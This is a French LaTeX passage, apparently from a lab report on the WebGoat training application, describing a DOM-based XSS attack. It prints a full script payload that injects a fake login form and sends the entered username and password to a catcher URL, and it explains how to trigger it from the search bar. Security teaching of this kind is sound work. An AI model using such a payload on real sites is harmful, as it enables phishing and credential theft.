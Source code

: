 \begin{flushleft}
Un autre exemple de l'exploitation de faille XSS de TYPE-0 pour cette fois changer l'apparence de la page en ajoutant deux cases à remplir avec un identifiant et un mot de passe dans le but de voler ces informations.

\bigskip

\begin{itemize}
\item </form><script>function hack(){ XSSImage=new Image; XSSImage.src="http://localhost/WebGoat/catcher?PROPERTY=yes&user="+ document.phish.user.value + "&password=" + document.phish.pass.value + ""; alert("Si cela etait une vraie attaque , les informations suivantes auraient ete volees. User Name = " + document.phish.user.value + " Password = " + document.phish.pass.value);} </script><form name="phish"><br><br><HR><H3>This feature requires account login:</H3 ><br><br>Enter Username:<br><input type="text" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br><input type="submit" name="login" value="login" onclick="hack()"></form><br><br><HR>
\end{itemize}

\bigskip

En copiant ce code dans la barre de recherche et ensuite en cliquant sur search on utilise la faille XSS de TYPE-0 pour cette fois-c faire un peu de phishing en faisant croire à la légitimité de la demande. Tout de suite on va entrer les informations demandées (pour l'exemple j'utilise <hackademics> comme identifiant et <123456> comme mot de passe) et cliquer sur login pour voire ce qu'il se passe
\end{flushleft}


\begin{figure}[hbtp]
\caption{XSS TYPE-0}
\centering
\includegraphics[scale=0.3]{Web/assets/xss1.png}
\end{figure}

